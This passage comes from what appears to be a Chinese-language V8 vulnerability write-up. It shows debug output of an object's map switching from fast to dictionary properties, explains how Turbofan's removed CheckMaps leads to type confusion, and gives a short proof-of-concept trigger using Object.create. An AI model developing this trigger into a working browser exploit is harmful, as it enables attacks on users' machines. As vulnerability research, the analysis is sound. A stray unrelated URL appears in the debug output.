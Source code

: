 ```
- enum length: invalid  
- back pointer: 0x0a49d638c981 &lt;Map(HOLEY_ELEMENTS)&gt;  
- prototype_validity cell: 0x07f205882201 &lt;Cell value= 1&gt;  
- instance descriptors (own) #2: 0x1909d7a8e2a1 &lt;DescriptorArray[8]&gt;  
- layout descriptor: (nil)  
- prototype: 0x1c4b472046d9 &lt;Object map = 0xa49d63822f1&gt;  
- constructor: 0x1c4b47204711 &lt;JSFunction Object (sfi = 0x7f20588f991)&gt;  
- dependent code: 0x20bfb0802391 &lt;Other heap object (WEAK_FIXED_ARRAY_TYPE)&gt;  
- construction counter: 0  

DebugPrint: 0x1909d7a8e599: [JS_OBJECT_TYPE]  
- map: 0x0a49d638cca1 &lt;Map(HOLEY_ELEMENTS)&gt; [DictionaryProperties]  
- prototype: 0x1c4b472046d9 &lt;Object map = 0xa49d63822f1&gt;  
- elements: 0x20bfb0802cf1 &lt;FixedArray[0]&gt; [HOLEY_ELEMENTS]  
- properties: 0x1909d7a8e5f1 &lt;NameDictionary[29]&gt; {  
  #y: 21 (data, dict_index: 2, attrs: [WEC])  
  #x: 42 (data, dict_index: 1, attrs: [WEC])  
}  
0xa49d638cca1: [Map]  
- type: JS_OBJECT_TYPE  
- instance size: 40  
- inobject properties: 2  
- elements kind: HOLEY_ELEMENTS  
- unused property fields: 0  
- enum length: invalid  
- dictionary_map  
- may_have_interesting_symbols  walkthrough://vscode_getting_started_page
- prototype_map  
- prototype info: 0x1c4b47223811 &lt;PrototypeInfo&gt;  
- prototype_validity cell: 0x07f205882201 &lt;Cell value= 1&gt;  
- instance descriptors (own) #0: 0x20bfb0802321 &lt;DescriptorArray[2]&gt;  
- layout descriptor: (nil)  
- prototype: 0x1c4b472046d9 &lt;Object map = 0xa49d63822f1&gt;  
- constructor: 0x1c4b47204711 &lt;JSFunction Object (sfi = 0x7f20588f991)&gt;  
- dependent code: 0x20bfb0802391 &lt;Other heap object (WEAK_FIXED_ARRAY_TYPE)&gt;  
- construction counter: 0
```

可以看到，在执行之前，map的类型为`FastProperties`，但是在执行之后map的类型是`DictionaryProperties`。如果`f`经过Turbofan的优化，只保留了第一次的`CheckMaps`，则会导致后一次程序使用fast mode去寻找dictionary mode中的元素，产生错误。再次修改poc，并观察Turbofan的优化过程。

```
function vuln(obj) {
  obj.a;
  Object.create(obj)
  return obj.b;
}

vuln({a:42, b:43});
vuln({a:42, b:43});
%OptimizeFunctionOnNextCall(vuln);
vuln({a:42, b:43});
```
